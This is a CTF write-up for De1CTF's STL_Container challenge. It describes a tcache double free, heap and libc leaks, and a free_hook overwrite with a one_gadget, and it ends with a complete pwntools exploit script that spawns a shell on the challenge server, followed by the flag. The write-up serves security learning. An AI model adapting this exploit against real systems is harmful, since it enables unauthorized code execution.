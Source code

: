 # STL_Container

Solved by: Shruti (@rudyerudite)

De1CTF had very interesting Pwn and RE challenges but I could only find time to attempt two: STL_Container and Parser of either categories respectively. Here’s a short writeup on a how I solved the former during the CTF. This is a simple challenge for learning and exploiting Tcache.

To get the initial click, we run a checksec.sh on the binary and find that all the mitigations are enabled except that RELRO is partial. It’s a 64-bit non-stripped binary which requires libc 2.27. Let’s checkout the typical menu of every heap challenge:

```
STL Container Test
1. list
2. vector
3. queue
4. stack
5. exit
>> 1
1. add
2. delete
3. show
>> 1
input data:aaa
done!
STL Container Test
1. list
2. vector
3. queue
4. stack
5. exit
>>
```
So CPP program presents us with 3 in built data structures of the most reliable STL library. Stack and queue make use of deque, list makes use of doubly linked list and vector uses a vector. I started out by allocating all the different data structures and found out that one could allocate only 2 nodes in each of the data structures. The allocation of each of these is done on the heap and and makes a fixed allocation of 0x98 bytes for each node. It reads in 0x98 bytes of data.

Taking all these into account, there could be a possibility of overwriting free_hook with a one_gadget ( as a shortcut to erstwhile overwriting with system). As the allocation was done using malloc one could get it easily by simply allocating, deleting and printing the contents of the chunk. And we had all the 3 functionalities under our control- though printing was not supported for stack and queue.

So I started off by allocating chunks and then deleting them one by one. What I noticed was when deleting vector I got a double free! Which implies there was a chunk pointing to itself in the tcache. That’s why I was able to allocate only 7 chunks.

## Getting the Leaks

I got the heap leaks by simply allocating the chunk which had pointers to the next chunk in the list. After that I called the print functionality. Hmmm… I’d a heap in the unsorted bin which I’d to allocate and print the contents. But because of the double free and also weird functionality of the code (copy content of a chunk to another and then delete the previous) I was not able to do it so easily. I created a list node and was allocated on the heap.

This is how a structure of a node (in list) looked like:

```
0x5555555455000000: heap_addr_of_next_node heap_addr_of_prev_node
0x5555555455000010: heap_addr_of_the_stored_content
```
I simply allocated one of the freed vector chunks and overwrote the next pointer to the heap address of the stored content. Then on the next allocation the naive tcache gave me the liberty to overwrite the address 0x5555555455000010 with the address of the chunk in the unsorted bin. I did so to make use of the print functionality so that I could simply print out the contents of the list node which I had previously created. But yes the contents printed out weren’t the earlier contents :).

That’s how I got the libc leak!

## Final Exploit

I created 2 vectors and deleted them to get a similar double free but this time overwrote next pointer with free_hook with a one_gadget and called a free using delete. Running the code swiftly popped up the much anticipated shell!

Here’s the final exploit for the code, mind you it’s not the most optimized code and there could be better ways of solving it. It might be a little confusing to understand, so better get your hands dirty on the binary and try out the exploit yourself!

```python
from pwn import *
 
#r = process('./stl_container')
r = remote('206.189.186.98',18848)
def callds(ds,opt,value,idx):
    r.sendlineafter(">>",str(ds))
    r.sendlineafter(">>",str(opt))
    if(opt == 1):
        r.sendlineafter("input data:",value)
        print(r.recvline())
    else:
        if((ds == 3 or ds == 4) and opt == 2):
            return
        r.sendlineafter("index?\n",str(idx))
        if(ds ==2):
            print("lol")
            print(r.recvline())
 
#payload = p64(0x0)+p64(0x91)+'a'*(0xa0-0x20)+p64(0x90)
#adding chunks to tcache
callds(1,1,'a'*0x10,-1)
callds(1,1,'b'*0x10,-1)
callds(2,1,'c'*0x10,-1)
callds(2,1,'d'*0x10,-1)
callds(3,1,'e'*0x10,-1)
callds(3,1,'f'*0x10,-1)
callds(4,1,'g'*0x10,-1)
payload = p64(0xa1)*0x6 + p64(0x0)
callds(4,1,payload,-1)
 
#deleting chunks; unsorted bin
callds(1,2,-1,0)
callds(1,2,-1,1)
callds(2,2,-1,0)
callds(2,2,-1,0)
callds(3,2,-1,0)
callds(3,2,-1,1)
callds(4,2,-1,0)
callds(4,2,-1,1)
 
#getting heap leaks
callds(1,1,'',-1)
callds(1,3,'',1)
print(r.recvline())
leak = u64(("\x70"+r.recvline().strip()).ljust(8,'\x00'))
print(hex(leak))
 
#getting libc leaks
chunk = p64(leak -0x3f0)
callds(3,1,'',-1)
callds(3,1,chunk,-1)
callds(4,1,'/bin/sh',-1)
payload = p64(leak+0xa0)
callds(4,1,payload,-1)
callds(1,3,'',0)
leak = u64(r.recvline().strip().split(": ")[1].ljust(8,'\x00'))
print(hex(leak))
libc_base = leak - 0x3ebca0
system = libc_base + 0x4f440
malloc_hook = libc_base + 0x3ebc30
free_hook = libc_base + 0x3ed8e8
one_gadget = libc_base + 0x4f322
 
#final overwrite
callds(1,2,-1,0)
callds(1,2,-1,0)
callds(3,2,-1,0)
#to cause a loop
callds(2,1,'c'*0x10,-1)
callds(2,1,'d'*0x10,-1)
callds(2,2,-1,0)
callds(2,2,-1,0)
 
payload = p64(free_hook)
callds(2,1,payload,-1)
callds(3,1,p64(one_gadget),-1)
#gdb.attach(r)
r.interactive()
##De1CTF{NeuEr_u51ng_O6j3ct_1n_VecT0r}
```